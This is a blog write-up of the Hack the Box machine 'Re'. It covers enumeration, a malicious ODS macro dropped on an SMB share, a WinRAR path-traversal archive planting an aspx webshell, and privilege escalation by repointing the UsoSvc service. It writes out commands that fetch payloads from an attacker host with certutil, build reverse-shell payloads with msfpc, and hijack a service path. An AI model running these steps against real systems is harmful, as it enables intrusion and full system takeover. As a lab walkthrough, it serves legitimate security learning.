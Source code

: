 +++
author = "Nick"
categories = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
date = 2020-02-01T11:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/re.png"
slug = "hack-the-box-re"
summary = "Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!"
tags = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
title = "Hack the Box - Re"

+++


Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!

We start with our normal ```nmap``` scan: ```nmap -sC -sV -oA re_initial 10.10.10.144```. We get back a small listing of results:

```
Nmap scan report for 10.10.10.144
Host is up (0.053s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Visit reblog.htb
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 48s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-10-22T19:52:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.32 seconds
```

We see there is a hostname leaked to us on port 80. We'll add that to our host lists. The port amount are fairly limited so we'll repeat the scan but against all ports. Meanwhile, we'll visit port 80 and see what is being hosted.

When we get to the site, we are immediatly redirected to reblog.htb. When we start to investigate the site we see it's a standard blog. We see that re.htb is listed on the bottom so we'll add that to our host file as well. Each posting is listed by date. So we'll start to enumerate this by year in addition to our normal enumeration process. 

We start with enumerating the year:
```gobuster dir -u http://reblog.htb -w /usr/share/wordlists/SecLists/Fuzzing/4-digits-0000-9999.txt```
We only got back 2019 as a directory. 

Next we'll enumerate the month:
```gobuster dir -u http://reblog.htb/2019/ -w ~/Documents/htb/re/0-99.txt```
Only 03 and 04 are months with entries.

Now the days of each month:
03 contained 4 total entries: 10, 15, 20, 31.
04 contained 2 total entries: 10, 4.

Now we could have done that entire process with ```wfuzz``` or a single listing with recurssion, but I'll leave that up to you :). The above match the amount of posts entered so there was no hidden posts. In addition to this we'll also do a standard enumeration pass with a common directories list:
```gobuster dir -u http://reblog.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 40```.
We see one additional directory called ```assets``` but nothing further. We might need to come back and run a second pass. While we read through the blog we also gain three usernames - Coby, Kenny and Malware. Maybe we can use these usernames to null past the SMB login.

We will try to use ```smbmap``` to take a peek:
```smbmap -u kenny -p 'null' -H 10.10.10.144```

We get back one location.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-93.png" >}}

When we connect to the location we see there is nothing there. We can however upload files to the location but they are removed / deleted shortly after. Now the first post on the reblog talks about ods Phishing Attempts. That there are rules in place to analyze phishing files that we put to in the malware drop box. We might want to try uploading a hidden payload into an [ODS file](https://fileinfo.com/extension/ods) (Open Office Document Spreadsheet) and upload it to the dropbox.

We will create a payload using ```Metasploit```. There is a ncie little blog post over on Rapid 7's blog on this topic. You can find it [here](https://blog.rapid7.com/2017/03/08/attacking-microsoft-office-openoffice-with-metasploit-macro-exploits/).

{{< figure src="__GHOST_URL__/content/images/2019/10/image-94.png" >}}

After we've crafted the payload and upload it to the share, we don't seem to get any connection back. Now we know from reading the blog post that the yara rules will detect any 'run of the mill' things. I would consider a pre-made MSF payload to be pretty run of the mill. So we can craft our own payload. 

The idea is to use the above created .ods file and enter our own shell code inside it. We know it's a Windows machine so it won't have netcat on it, so we'll need to get it. We need a way to download netcat onto the machine. Then we need to have the payload execute our commands.

So first we'll changed the .ods extension to a .zip and extract the contents. We then dig into the directory created to get to the file called Module1.xml: ```/msf/Basic/Standard/Module1.xml```. We then need to modify the ```Sub OnLoad``` function to execute our code rather than the Metasploit code.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-95.png" >}}

We then upload the file to the malware share and wait..

{{< figure src="__GHOST_URL__/content/images/2019/11/image-63.png" >}}

Our listener lights up and we have a shell! We snag our user flag from Luke's Desktop and start to enumerate internally. In the Luke's Downloads folder we see a few installers:

{{< figure src="__GHOST_URL__/content/images/2019/12/image.png" >}}

What immediately stands out is WinRar. [This CVE](https://nvd.nist.gov/vuln/detail/CVE-2018-20250) came to mind almost immediately since I've seen it in the past. If you've not seen it before some quick googling of 'CVE + WinRar' would turn up this result as well. Since we already know this has a high likleyhood of being our next entry point, we can jump over to [Evil-WinRAR](https://github.com/manulqwerty/Evil-WinRAR-Gen). The trick here is to get the file to execute as our admin. Some basic internal enumeration shows us that we have ```IIS``` installed. We can combine that with the knowledge of the ```proj_drop``` folder to get us an executable location. With this knowledge we can craft a webshell payload and leverage that to pivot.

First we have to craft our payload. We'll use ```MSFPC``` or the traditional ```MSFVenom``` whichever you'd like.

```msfpc aspx tun0 4444```

{{< figure src="__GHOST_URL__/content/images/2019/12/mfspc.gif" >}}

We then need to add this payload to a zip file with a traveral path.

```zip rf.zip ../../../../../../../../inetpub/wwwroot/blog/rf.aspx```
You'll need to create the path locally as well.

We're going assume that the site name is blog in this scenario and attempt to have the page extracted there.

Once we've created our zip we can use ```Evil-WinRAR``` to 'weaponize' it.

```python3 evilWinRAR.py -e rf.zip -g rf.txt -p 'c:\proj_drop\' -o rf.rar```

Once we've created our malicous payload we can download it with ```certutil.exe``` like before.

```certutil.exe -urlcache -split -f "http://10.10.15.177/rf.rar" C:\Users\luke\Documents\ods\rf.rar```

{{< figure src="__GHOST_URL__/content/images/2019/12/payloadup.gif" >}}

Once we upload it we wait for our session to come back. The blog does note that it is restarted every 4 minutes if it doesn't seem to be working. Once our session lights up we have a shell as ISUR. We get our shell and see if we can snag some tokens with ```incognito```.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-1.png" caption="" >}}

We don't seem to have any that we can take. But our enumeration shows that we have ```Sysinternals``` installed. We can use ```accesschk``` to see what permissions we might have. We see that ```SERVICE``` has access to ```UsoSvc```.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-2.png" >}}

And we know that [UsoSvc is exploitable](https://www.atredis.com/blog/cve-2018-0952-privilege-escalation-vulnerability-in-windows-standard-collector-service). We can create a standard .exe MSF payload and upload it to a directory, then change our path for UsoSvc to it. We then restart the service and should get a shell back as system.

Create our payload:
```msfpc windows tun0 4444```

Upload our payload:
```certutil.exe -urlcache -split -f "http://10.10.15.177/foobar.exe" C:\temp\foobar.exe```

Change our Executable Path:
```sc config usosvc binPath="C:\temp\foobar.exe"```

Restart our service:
```sc stop usosvc```
```sc start usosvc```

We then see our new session light up as system!

{{< figure src="__GHOST_URL__/content/images/2019/12/image-4.png" >}}

We head to the Administrator desktop and grab our root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

